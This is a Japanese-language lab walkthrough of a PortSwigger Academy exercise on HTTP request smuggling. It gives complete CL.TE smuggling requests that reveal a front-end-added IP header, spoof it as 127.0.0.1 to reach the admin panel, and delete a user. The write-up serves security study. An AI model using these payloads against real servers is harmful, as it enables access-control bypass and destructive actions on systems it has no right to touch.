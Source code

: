 # HTTP リクエストの密輸を悪用してフロントエンド リクエストの書き換えを明らかにする

次のハッキングラボを実施します  
https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting  
このラボにはフロントエンド サーバーとバックエンドサーバーが含まれますが、フロントエンドサーバーはチャンク エンコーディングをサポートしていません。フロントエンド サーバーは、IP アドレスを含む受信要求に HTTP ヘッダーを追加します。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. ハッキングラボ URL/admin にアクセスしてみます  
     次のメッセージが確認できます

```
Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1
```

- 4. ホームページに戻り、任意のワードで検索します
- 5. POST / リクエストを send to repeater します
- 6. Setting で Repeater の Update content length のチェックボックスを外します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8b1031a6-e20f-4f61-b906-8b54d6d8a882)

- 7. inspector で http/1 に設定します
- 8. 次のリクエストを 2 回送信します

```
POST / HTTP/1.1
Host: 0aec00cc04c7bf5e82c101b0004000f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

2 回目の結果として、独自のヘッダーが自動的に追加されていることがっ確認できます
![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/2b1c5b62-c4a5-463d-80f8-e7eb31a2228c)

X-cFUrwS-ip: 106.155.0.128

- 9. 独自ヘッダーを付加して、2 回リクエストを送信します

```
POST / HTTP/1.1
Host: 0aec00cc04c7bf5e82c101b0004000f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-cFUrwS-ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

管理者ページにアクセスでき、一般ユーザーの削除リンクが取得できます

```html
<span>carlos - </span> <a href="/admin/delete?username=carlos">Delete</a>
```

- 10. 削除リンクにアクセスするようにチャンク化されたリクエストを書き換えて、2 回送信します

```
POST / HTTP/1.1
Host: 0aec00cc04c7bf5e82c101b0004000f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-cFUrwS-ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

2 回目のレスポンスでユーザーの削除ができました

```
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=PrTycj4zrlvB3Tvf9P1qJB0yeGmR9Y19; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```
